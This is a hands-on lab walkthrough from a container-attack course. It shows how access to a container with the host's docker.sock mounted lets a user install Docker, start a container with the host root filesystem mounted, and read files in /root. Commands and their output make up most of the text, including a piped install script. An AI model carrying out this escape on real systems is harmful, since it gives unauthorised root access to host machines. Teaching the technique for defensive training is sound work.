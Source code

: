 ## Docker Daemon Direct Access

###### A malicious user who gains access to a container where the `docker.sock` of host machine is exposed, can gain access to the host machine.

##### Step 1:
* Open Terminal

	![](img/Open-Terminal.png)

##### Step 2:
*  **cd** into  `Labs/3.0.0-Container-Attacks/3.2.0`

    ```commandline
    cd Labs/3.0.0-Container-Attacks/3.2.0
    ```
##### Step 3:
* Run `docker run -d -v /var/run/docker.sock:/var/run/docker.sock --name vul_flask abhaybhargav/vul_flask` to start a docker container.

    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.2.0# docker run -d -v /var/run/docker.sock:/var/run/docker.sock --name vul_flask abhaybhargav/vul_flask
    1681e86d567eaa2b7344cff0535819fffe8f3a786b4b768be3c95d9b40a4e71d
    ```
      
    ![](img/docker-run.png)
 
##### Step 4:   
* Run `docker ps` to view, all running containers.

    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.2.0# docker ps
    CONTAINER ID        IMAGE                    COMMAND             CREATED              STATUS              PORTS               NAMES
    1681e86d567e        abhaybhargav/vul_flask   "python app.py"     About a minute ago   Up About a minute   5050/tcp            vul_flask/tcp            vul_flask
    ```
     
    ![](img/docker-ps.png)
    
##### Step 5:   
* Run `docker exec -it vul_flask bash` to exec into a running container.

    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.2.0# docker exec -it vul_flask bash
    root@1681e86d567e:/apps# 
    ```
    ![](img/docker-exec.png)

##### Step 6:
* Install docker-engine by running `apt-get update && apt-get install wget -y && wget -qO- https://get.docker.com | sh`.

    ```commandline
    root@1681e86d567e:/apps# apt-get update && apt-get install wget -y && wget -qO- https://get.docker.com | sh
    Get:1 http://security.debian.org jessie/updates InRelease [44.9 kB]
    Ign http://deb.debian.org jessie InRelease          
    Get:2 http://deb.debian.org jessie-updates InRelease [145 kB]
    Get:3 http://deb.debian.org jessie Release.gpg [2420 B]                               
    Get:4 http://deb.debian.org jessie Release [148 kB]              
    Get:5 http://deb.debian.org jessie-updates/main amd64 Packages [23.0 kB]          
    Get:6 http://deb.debian.org jessie/main amd64 Packages [9098 kB]       
    Get:7 http://security.debian.org jessie/updates/main amd64 Packages [663 kB]
    Fetched 10.1 MB in 21s (480 kB/s)                                                                                                                            
    Reading package lists... Done
    Reading package lists... Done
    Building dependency tree       
    Reading state information... Done
    The following packages will be upgraded:
      wget
    1 upgraded, 0 newly installed, 0 to remove and 66 not upgraded.
    Need to get 496 kB of archives.
    After this operation, 362 kB disk space will be freed.
    Get:1 http://deb.debian.org/debian/ jessie/main wget amd64 1.16-1+deb8u5 [496 kB]
    Fetched 496 kB in 1s (288 kB/s)
    debconf: delaying package configuration, since apt-utils is not installed
    (Reading database ... 21636 files and directories currently installed.)
    Preparing to unpack .../wget_1.16-1+deb8u5_amd64.deb ...
    Unpacking wget (1.16-1+deb8u5) over (1.16-1+deb8u4) ...
    Setting up wget (1.16-1+deb8u5) ...
    # Executing docker install script, commit: 36b78b2
    + sh -c apt-get update -qq >/dev/null
    + sh -c apt-get install -y -qq apt-transport-https ca-certificates curl >/dev/null
    debconf: delaying package configuration, since apt-utils is not installed
    + sh -c curl -fsSL "https://download.docker.com/linux/debian/gpg" | apt-key add -qq - >/dev/null
    + sh -c echo "deb [arch=amd64] https://download.docker.com/linux/debian jessie edge" > /etc/apt/sources.list.d/docker.list
    + [ debian = debian ]
    + [ jessie = wheezy ]
    + sh -c apt-get update -qq >/dev/null
    + sh -c apt-get install -y -qq --no-install-recommends docker-ce >/dev/null
    debconf: delaying package configuration, since apt-utils is not installed
    + sh -c docker version
    Client:
     Version:           18.06.1-ce
     API version:       1.38
     Go version:        go1.10.3
     Git commit:        e68fc7a
     Built:             Tue Aug 21 17:25:03 2018
     OS/Arch:           linux/amd64
     Experimental:      false
    
    Server:
     Engine:
      Version:          18.06.1-ce
      API version:      1.38 (minimum version 1.12)
      Go version:       go1.10.3
      Git commit:       e68fc7a
      Built:            Tue Aug 21 17:23:24 2018
      OS/Arch:          linux/amd64
      Experimental:     false
    If you would like to use Docker as a non-root user, you should now consider
    adding your user to the "docker" group with something like:
    
      sudo usermod -aG docker your-user
    
    Remember that you will have to log out and back in for this to take effect!
    
    WARNING: Adding a user to the "docker" group will grant the ability to run
             containers which can be used to obtain root privileges on the
             docker host.
             Refer to https://docs.docker.com/engine/security/security/#docker-daemon-attack-surface
             for more information.
    ```

##### Step 7:
*  Once docker is installed, run `docker run -ti -v /:/hostFS/ ubuntu:16.04 /bin/bash`

    ```commandline
    root@1681e86d567e:/apps# docker run -ti -v /:/hostFS/ ubuntu:16.04 /bin/bash
    root@b412be8326b5:/#
    ```

##### Step 8:
* Run `cd /hostFS/root/` to access the toot directory.

    ```commandline
    root@b412be8326b5:/# cd /hostFS/root/    
    ```
    
##### Step 9:  
* Run `ls` to check the secret.txt file inside a container.

    ```commandline
    root@b412be8326b5:/hostFS/root# ls
    secret.txt
    ``` 
    
##### Step 10:
* Run `cat secret.txt` to view the content of the file.

```commandline
root@b412be8326b5:/hostFS/root# cat secret.txt 
secret
``` 
**Note:** Malicious user now has complete access to the root Filesystem of the host machine.

##### Step 11:
* Run `exit` to exit from the Malicious container.

    ```commandline
    root@b412be8326b5:/hostFS/root# exit
    exit
    ```

##### Step 12:
* Run `exit` to exit from the container.

    ```commandline
    root@1681e86d567e:/apps# exit
    exit
    ```
##### Step 13:   
* Run `docker stop vul_flask` to stop the running container.

    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.2.0# docker stop vul_flask
    vul_flask
    ```
        
    ![](img/docker-stop.png)  
    
##### Step 14:   
* Run `docker rm vul_flask` to remove stopped container.

    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.2.0# docker rm vul_flask
    vul_flask
    ```
    ![](img/docker-rm.png)
